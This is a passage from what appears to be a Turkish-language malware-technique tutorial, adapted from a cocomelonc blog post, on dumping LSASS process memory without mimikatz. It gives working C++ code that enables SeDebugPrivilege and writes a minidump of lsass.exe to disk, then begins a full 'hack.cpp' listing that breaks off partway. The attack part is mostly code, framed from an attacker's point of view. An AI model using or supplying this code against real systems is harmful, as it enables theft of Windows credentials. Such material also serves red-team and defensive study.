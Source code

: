 ```cpp
}
```

Bir saldırgan olarak `LSASS` dökümü alabilmek için `SeDebugPrivilege` ayrıcalığına sahip olmak gereklidir:    

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```

Ardından, döküm oluşturmak için şu adımları izleyebiliriz:      

```cpp
// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0,
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : 
    "failed to dump :(\n");
  } 
  return dumped; 
}
```

Tam kaynak kodu şu şekilde görünecektir: `hack.cpp`:     

```cpp
/*
 * hack.cpp - Dump lsass without mimikatz. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment (lib, "dbghelp.lib")

int findMyProc(const char *procname) {

```